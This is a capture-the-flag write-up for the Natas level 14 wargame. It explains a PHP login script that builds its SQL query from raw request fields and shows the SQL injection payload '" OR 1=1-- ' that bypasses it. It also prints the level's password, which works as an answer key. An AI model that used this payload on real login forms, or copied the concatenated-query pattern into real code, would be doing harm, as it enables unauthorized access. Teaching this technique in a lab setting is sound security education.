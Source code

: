 # Level 14

## Software used
- Google Chrome + FoxyProxy
- Burpsuite Community
- [onlinephp.io](https://onlinephp.io/)

## Hint

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```

## Solution

As always let's break down the sourcecode.  
[$\_REQUEST](https://www.php.net/manual/en/reserved.variables.request.php): An associative array that by default contains the contents of $\_GET, $\_POST and $\_COOKIE.  
[mysqli_connect](https://www.php.net/manual/en/function.mysqli-connect.php): This function is an alias of: [mysqli::\_\_construct()](https://www.php.net/manual/en/mysqli.construct.php)  
[mysqli_select_db](https://www.php.net/manual/en/mysqli.select-db.php):  Selects the default database for database queries

```php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');
```

If key 'username' exists in $\_REQUEST, then create a variable $link which is a representation of a connection to a MySQL database.  
Its values are hostname, username, password.  
As last step the php built-in function mysqli_select_db() is used to select the databse 'natas14'.  

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
The next step, the variable $query is declared which contains a SELECT query for MySQL
```php
<?php

$array = array(
	
	"username" => "natas14",
	"password" => "fakepassword"
);

$query = "SELECT * from users where username=\"".$array["username"]."\" and password=\"".$array["password"]."\"";

echo $query

?>
```
> SELECT * from users where username="natas14" and password="fakepassword"


```php
if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```
[mysqli_num_rows](https://www.php.net/manual/en/mysqli-result.num-rows.php): Gets the number of rows in the result set  
[mysqli_close](https://www.php.net/manual/en/mysqli.close.php): Closes a previously opened database connection
If key 'debug' exists in $\_GET, prints back the message executing query.  
If the number of rows returned from the database query is greater than 0, then prints back the message containing the password for natas15, otherwise prints back the error message 'Access denied'.  
Close the connection to the dataase.



Payload to inject: `" OR 1=1-- `
**Note that MySQL requires a single space after the comment operator --**

```php
<?php

$array = array(
	
	"username" => 'natas14',
	"password" => '" OR 1=1-- ',
);

$query = "SELECT * from users where username=\"".$array["username"]."\" and password=\"".$array["password"]."\"";

echo $query

?>
```
> SELECT * from users where username="natas14" and password="" OR 1=1-- "  

Since 1=1 is always True, even if the password is wrong or empty the whole query results to be True and the application executes correctly.  
Sending payload within Burpsuite requires the payload to be urlencoded:  

<img src="https://github.com/jupitersinsight/writeups/assets/110602224/6afcba5f-1792-4e4e-b2e7-a2dc062ec4b4" widht=900 height=auto>

The password for natas15 is: **TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB**

